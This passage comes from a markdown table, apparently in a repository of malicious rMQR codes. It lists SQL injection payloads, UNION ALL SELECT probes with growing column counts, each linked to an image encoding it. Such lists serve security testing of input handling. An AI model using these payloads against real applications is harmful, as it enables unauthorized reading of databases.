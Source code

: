 | `UNION ALL SELECT 1,2#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/374.png) |
| `UNION ALL SELECT 1,2,3#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/375.png) |
| `UNION ALL SELECT 1,2,3,4#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/376.png) |
| `UNION ALL SELECT 1,2,3,4,5#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/377.png) |
| `UNION ALL SELECT 1,2,3,4,5,6#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/378.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/379.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/380.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/381.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/384.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/385.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/386.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/387.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/388.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/389.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/390.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/391.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/392.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/393.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/394.png) |
| `UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/395.png) |
| ` UNION ALL SELECT 1-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/396.png) |
| ` UNION ALL SELECT 1,2-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/397.png) |
| ` UNION ALL SELECT 1,2,3-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/398.png) |
| ` UNION ALL SELECT 1,2,3,4-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/399.png) |
| ` UNION ALL SELECT 1,2,3,4,5-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/400.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/401.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/402.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/403.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/406.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/407.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/408.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/409.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/410.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/411.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/412.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/413.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/414.png) |